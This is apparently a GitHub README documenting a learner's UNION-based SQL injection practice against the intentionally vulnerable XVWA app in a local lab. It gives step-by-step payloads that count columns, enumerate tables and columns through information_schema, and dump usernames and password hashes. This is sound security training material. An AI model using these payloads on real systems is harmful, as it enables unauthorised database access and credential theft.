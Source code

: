 **🛡️ SQL Injection Practice - XVWA**
Welcome to my hands-on SQL Injection lab using XVWA (Xtreme Vulnerable Web Application). This project is part of my cybersecurity learning journey, focusing on UNION-based SQL Injection in a safe, local testing environment.

🎯 Target Information
Application: XVWA (Xtreme Vulnerable Web Application)
Testing URL: http://localhost/xvwa/vulnerabilities/sqli/
Environment: Local VMware (Safe Testing Lab)
Purpose: Practicing UNION-based SQL Injection techniques in a safe, controlled environment.

🧪 Understanding Columns in UNION-Based SQL Injection
Before using a UNION SELECT statement in SQL Injection, it is important to determine the number of columns in the original SQL query. This is because the number of columns in the UNION query must match the number of columns in the original query.

🔍 Using ORDER BY to Identify the Number of Columns
To test how many columns are being used in a vulnerable SQL query, we can use the ORDER BY clause. For example:

' ORDER BY 5 #
This statement tells the database to order the results by the 5th column. If the page works without error, it means the table likely has at least 5 columns.

If you try:
' ORDER BY 6 #
and the page shows an error, it means the table does not have 6 columns — the number of columns is less than 6.

You can repeat this process to determine the exact number of columns:
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
Once you find the highest number that does not cause an error, that’s the number of columns in the original query.

🧪 UNION-Based SQL Injection: Extracting Data After Column Discovery
Once you have successfully identified the number of columns in the original SQL query using the ORDER BY method (for example, 7 columns), you can proceed to use the UNION SELECT statement to extract useful information from the database.

✅ Step-by-Step Example
1. Confirm the number of columns
Assume that after testing with:
' ORDER BY 7 #
you get no error, but:

' ORDER BY 8 #
produces an error. That means the SQL query has 7 columns.

2. Test with dummy data
To check which columns are reflected in the output, inject the following payload into the vulnerable input field:

' UNION SELECT 1,2,3,4,5,6,7 #
If some or all of these values appear on the page, you’ve identified which columns can be used to display data.

3. Replace with database functions
Now that you know how many columns exist and which ones are visible, you can replace specific column numbers with database functions such as:

database() — shows the current database name

user() — shows the current database user

For example:
' UNION SELECT 1, database(), 3, user(), 5, 6, 7 #
This will inject the values from the database and user functions into the page, helping you confirm that the injection is successful and data is being retrieved.

🗂️ Enumerating Tables in the Current Database
Once you have successfully injected and retrieved information using functions like database() and user(), the next step is to enumerate all the tables in the current database. This helps identify where sensitive data might be stored, such as in a users table.

🔍 Step: Extract Table Names Using information_schema
The following SQL Injection payload can be used to list all table names in the current database:

' UNION SELECT 1, GROUP_CONCAT(table_name), 3, user(), 5, 6, 7 FROM information_schema.tables WHERE table_schema = database() #

✅ Explanation:
GROUP_CONCAT(table_name): Combines all table names into a single string output.

information_schema.tables: A special MySQL system table that stores metadata about all tables.

WHERE table_schema = database(): Limits the results to the currently selected database only.

The other numbers (1, 3, user(), 5, 6, 7) match the total number of columns previously discovered (7 in this case).

📌 Result
This payload will display the list of all tables in the current database. One of the most common and interesting targets is usually a table called: users
Once you confirm that a users table exists, you can move forward and enumerate its columns and eventually the data it stores.

🔎 Enumerating Columns from the users Table
After identifying the presence of the users table, the next step is to enumerate its columns. This helps you understand what kind of data is stored — such as username, password, email, etc.

🧪 Step: Extract Column Names Using information_schema.columns
To list all column names from the users table, use the following SQL Injection payload:

' UNION SELECT 1, GROUP_CONCAT(column_name), 3, user(), 5, 6, 7 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users' #

✅ Explanation:
GROUP_CONCAT(column_name): Combines all column names into a single line.

information_schema.columns: A system table that contains metadata about columns in every table.
WHERE table_schema = database(): Filters columns to the current database.
AND table_name = 'users': Filters only columns from the users table.
The rest of the numbers (e.g., 1, 3, user(), 5, 6, 7) are placeholders to match the total of 7 columns in the query.

🧾 Example Output
The result might return something like:
id,username,password,email
These are the columns inside the users table that can be used in the next step to retrieve sensitive data.

🔐 Extracting Data from the users Table
After discovering the column names in the users table (e.g., username, password), the next objective is to extract the actual data stored within those columns — such as usernames and hashed passwords.

🧪 Step: Retrieve Data Using UNION SELECT
Use the following SQL Injection payload to extract all usernames and their corresponding passwords:

' UNION SELECT 1, GROUP_CONCAT(username, 0x3a, password), 3, user(), 5, 6, 7 FROM users #

✅ Explanation:
GROUP_CONCAT(username, 0x3a, password): Combines username and password columns with a colon (:) separator. 0x3a is the hexadecimal representation of :.

FROM users: Retrieves the data from the vulnerable users table.

Other numbers (1, 3, user(), 5, 6, 7) are used to fill the remaining columns, assuming 7 total columns.

🧾 Example Output
The page might return data like:

admin:5f4dcc3b5aa765d61d8327deb882cf99,user:test123

This means:
admin has a password hash: 5f4dcc3b5aa765d61d8327deb882cf99 (which is "password" in MD5).
user has password: test123




